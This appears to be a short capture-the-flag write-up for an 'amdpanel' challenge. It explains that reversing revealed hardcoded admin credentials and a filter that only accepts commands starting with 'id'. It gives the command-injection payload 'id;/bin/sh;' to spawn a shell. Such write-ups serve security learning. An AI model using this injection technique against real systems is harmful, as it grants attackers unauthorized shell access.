 # amdpanel
> LongChampion, 06/04/2020

## Challenge
This challenge have simple inteface:
```
LOG: [OPERATION: CONNECT] Todo: log IP address for traceability!
---=-=-=-=-=-=-=-=-=---
-      Admin panel    -
-
- [0] - Help
- [1] - Authenticate
- [2] - Execute command
- [3] - Exit
---=-=-=-=-=-=-=-=-=---
 > 
```
After reversing, I see that we can login with account `admin:password` and execute any command start with `id`. Yes, it is command injection.

## Solution
You can solve this challenge by hand: login with account `admin:password`, then execute `id;/bin/sh;` to get the shell.
